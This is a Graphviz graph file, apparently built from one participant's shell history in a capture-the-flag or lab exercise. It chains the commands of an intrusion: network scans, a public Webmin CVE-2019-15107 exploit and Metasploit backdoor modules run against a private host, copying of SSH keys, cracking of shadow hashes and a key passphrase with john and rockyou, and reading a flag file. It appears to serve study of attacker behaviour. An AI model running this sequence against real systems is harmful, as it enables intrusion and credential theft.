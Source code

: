 // creating graph for user: 86
digraph {
	node [shape=box]
	0 [label="curl ipconfig.co U"]
	1 [label="dig +short myip.opendns.com U"]
	2 [label="nmap 172.18.1.5 -p 0-65535 A0 "]
	3 [label="nc 172.18.1.6:10000 U"]
	4 [label="nc 172.18.1.6 10000 U"]
	5 [label="wat U"]
	6 [label="nc 172.18.1.5 10000 U"]
	7 [label="git clone https://github.com/jas502n/cve-2019-15107 U"]
	8 [label="git clone https://github.com/jas502n/cve-2019-15107 U"]
	9 [label="python CVE_2019_15107.py http://172.18.1.5:10000 U"]
	10 [label="python CVE_2019_15107.py http://172.18.1.5:10000 id U"]
	11 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls U"]
	12 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root U"]
	13 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /root' U"]
	14 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /root/WARNING-READ-ME.txt' U"]
	15 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -l /root' U"]
	16 [label="ip a U"]
	17 [label="nmap 172.18.1.5 A0 "]
	18 [label="nmap 172.18.1.0/24 A0 "]
	19 [label="nmap 172.18.0.0/16 A0 "]
	20 [label="nmap 172.18.0.0/16 A0 "]
	21 [label="msf U"]
	22 [label="metaflac U"]
	23 [label="msfconsole U"]
	24 [label="use exploit/linux/http/webmin_backdoor U"]
	25 [label="msfconsole U"]
	26 [label="search webmin U"]
	27 [label="use exploit/unix/webapp/webmin_backdoor U"]
	28 [label="show targets U"]
	29 [label="set target 0 U"]
	30 [label="set target 1 U"]
	31 [label="show options U"]
	32 [label="set RHOSTS 172.15.1.5 U"]
	33 [label="set RPORT 10000 U"]
	34 [label="show U"]
	35 [label="show options U"]
	36 [label="exploit U"]
	37 [label="quit U"]
	38 [label="msfconsole U"]
	39 [label="search webmin U"]
	40 [label="use exploit/unix/webapp/webmin_show_cgi_exec U"]
	41 [label="show U"]
	42 [label="show targets U"]
	43 [label="show options U"]
	44 [label="set RHOST 172.18.1.5 U"]
	45 [label="set USERNAME dmin U"]
	46 [label="set USERNAME admin U"]
	47 [label="exploit U"]
	48 [label="set PASSWORD admin U"]
	49 [label="exploit U"]
	50 [label="ip a U"]
	51 [label="use exploit/unix/webapp/webmin_backdoor U"]
	52 [label="show targets U"]
	53 [label="set TARGET 0 U"]
	54 [label="show options U"]
	55 [label="set LHOST 10.1.135.83 U"]
	56 [label="set RHOST 172.18.1.5  U"]
	57 [label="exploit U"]
	58 [label="set TARGET 1 U"]
	59 [label="ssh eve@10.1.17.4 U"]
	60 [label="man xclip U"]
	61 [label="xclip -selection c -o > .ssh/id_rsa U"]
	62 [label="vim .ssh/id_rsa U"]
	63 [label="vim .ssh/id_rsa.pub U"]
	64 [label="ssh eve@10.1.17.4 U"]
	65 [label="chmod 0600 /root/.ssh/id_rsa U"]
	66 [label="ssh eve@10.1.17.4 U"]
	67 [label="ssh eve@10.1.17.4 U"]
	68 [label="nc -l 12345 U"]
	69 [label="ip a U"]
	70 [label="vim shadow U"]
	71 [label="vim passwd U"]
	72 [label="unshadow shadow passwd U"]
	73 [label="unshadow passwd shadow U"]
	74 [label="unshadow passwd shadow > mypasswd U"]
	75 [label="john mypasswd U"]
	76 [label="base64 -d U"]
	77 [label="cat .ssh/id_rsa U"]
	78 [label="cat .ssh/id_rsa.pub U"]
	79 [label="ls U"]
	80 [label="cp ~/.ssh/id_rsa U"]
	81 [label="cp ~/.ssh/id_rsa id_rsa U"]
	82 [label="localte ssh2john.py U"]
	83 [label="locate ssh2john.py U"]
	84 [label="python ssh2john.py id_rsa A5 M5 "]
	85 [label="python ssh2john.py id_rsa > ssh.john A5 M5 "]
	86 [label="john ssh.john U"]
	87 [label="john ssh.john U"]
	88 [label="cat .john/john.rec U"]
	89 [label="fg U"]
	90 [label="john ssh.john U"]
	91 [label="wget https://github.com/praetorian-code/hob0rules/blob/master/wordlists/rockyou.txt.gz U"]
	92 [label="cat rockyou.txt.gz U"]
	93 [label="locate rockyou U"]
	94 [label="john ssh.john -wordlist /usr/share/wordlists/rockyou.txt U"]
	95 [label="john ssh.john -wordlist /usr/share/wordlists/rockyou.txt U"]
	96 [label="ls /usr/share/wordlists/rockyou.txt U"]
	97 [label="ll /usr/share/wordlists/rockyou.txt U"]
	98 [label="ls -l /usr/share/wordlists/rockyou.txt U"]
	99 [label="john ssh.john U"]
	100 [label="locate rocky U"]
	101 [label="ls /usr/share/wordlists/ U"]
	102 [label="cd me U"]
	103 [label="ls /usr/share/wordlists/metasploit U"]
	104 [label="cd U"]
	105 [label="locate ssh2john.py U"]
	106 [label="diff ssh2john.py /usr/share/john/ssh2john.py U"]
	107 [label="ll U"]
	108 [label="ls U"]
	109 [label="python /usr/share/john/ssh2john.py id_rsa > ssh2.jogn U"]
	110 [label="diff ssh.john ssh2.jogn U"]
	111 [label="john ssh.john --wordlist=/usr/share/wordlists/rockyou.txt U"]
	112 [label="cat /usr/share/wordlists/rockyou.txt  U"]
	113 [label="cat /usr/share/wordlists/rockyou.txt  U"]
	114 [label="ssh eve@10.1.17.4 U"]
	115 [label="nice U"]
	116 [label="ls U"]
	117 [label="cd top-secret/ U"]
	118 [label="ls U"]
	119 [label="cat flag.txt A8 M8 "]
	120 [label="ll /usr/share/wordlists/rockyou.txt U"]
	121 [label="ls -l /usr/share/wordlists/rockyou.txt U"]
	122 [label="exit U"]
	123 [label="john ssh.john -wordlist=/usr/share/wordlists/rockyou.txt U"]
	124 [label="john ssh.john -wordlist /usr/share/wordlists/rockyou.txt U"]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	rankdir=LR
}
